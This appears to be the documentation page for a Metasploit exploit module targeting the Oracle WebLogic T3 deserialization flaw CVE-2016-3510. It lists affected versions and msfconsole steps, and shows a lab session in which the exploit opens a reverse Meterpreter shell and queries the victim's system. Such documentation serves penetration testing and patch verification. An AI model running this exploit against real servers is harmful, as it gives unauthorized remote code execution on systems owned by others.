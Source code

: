 ## Description
 Oracle Weblogic Server v10.3.6.0, v12.1.3.0, and v12.2.1.0 are vulnerable to a deserialization vulnerability (CVE 2016-3510), which can be used to execute code on vulnerable systems. An unauthenticated user with network access via T3 could exploit the vulnerability. This module has been tested against Oracle Weblogic Server v10.3.6.0 and v12.1.3.0 running on Windows 7 x64 using JDK v7u80.
## Vulnerable Application
 Oracle Weblogic Server v10.3.6.0, v12.1.3.0, and v12.2.1.0.
## Verification Steps
 1. `./msfconsole -q`
 2. `use exploit/multi/misc/weblogic_deserialize_marshalledobject`
 3. `set rhosts <rhost>`
 4. `set rport <srvport>`
 5. `exploit`
## Scenarios
### Tested on Windows 7 x64 running Oracle Weblogic Server 10.3.6.0 and 12.1.3.0 on JDK v7u80
 ```
 msf exploit(multi/misc/weblogic_deserialize_marshalledobject) > set rhost 192.168.192.6
 rhost => 192.168.192.6
 msf exploit(multi/misc/weblogic_deserialize_marshalledobject > set rport 7001
 rport => 7001
 msf exploit(multi/misc/weblogic_deserialize_marshalledobject) > exploit
 
 [*] Started reverse TCP handler on 192.168.192.136:4444 
 [*] 192.168.192.6:7001 - Sending handshake...
 [*] 192.168.192.6:7001 - Sending T3 request object...
 [*] 192.168.192.6:7001 - Sending client object payload...
 [*] Sending stage (179779 bytes) to 192.168.192.6
 [*] Meterpreter session 8 opened (192.168.192.136:4444 -> 192.168.192.6:49276) at 2018-12-14 11:44:30 -0800

 meterpreter > sysinfo
 Computer        : GIOTTO-HS-W7
 OS              : Windows 7 (Build 7600).
 Architecture    : x64
 System Language : en_US
 Domain          : WORKGROUP
 Logged On Users : 2
 Meterpreter     : x86/windows
 ```
